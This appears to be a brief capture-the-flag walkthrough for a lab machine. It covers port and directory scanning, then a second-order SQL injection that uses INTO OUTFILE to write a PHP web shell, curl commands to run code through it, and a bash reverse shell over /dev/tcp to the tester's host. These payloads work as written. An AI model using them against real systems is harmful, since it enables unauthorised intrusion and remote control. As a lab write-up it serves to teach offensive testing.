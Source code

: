 Started a nmap scan
```
22 OpenSSH 8.2p1
80 Apache 2.4.48
8080 nginx 
```
Doing a gobuster scan on the webhost 
```
/index.php
account.php
/css
/js
```
When looking at the site there is two input field on field one the site takes what ever we put in there and makes a MD5 hash and sets it as the cookie we have to use this cookie the wholetime and then in the countries field if we add a `'` we get a 500 error so we have sqli injection second order injection we can use this payload to make a cmd shell `Brazil' UNION SELECT "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php' -- -` and now we can curl the file and get code exaction `curl http://10.10.11.116/shell.php?cmd=id` and we get user `www-data` now if we do `curl http://10.10.11.116/shell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.3/4444 0>&1"'` we can get a reverse shell and we can stabilize with script and we can read the user flag if we read the config file there is a password in it that will get us to root `.................` 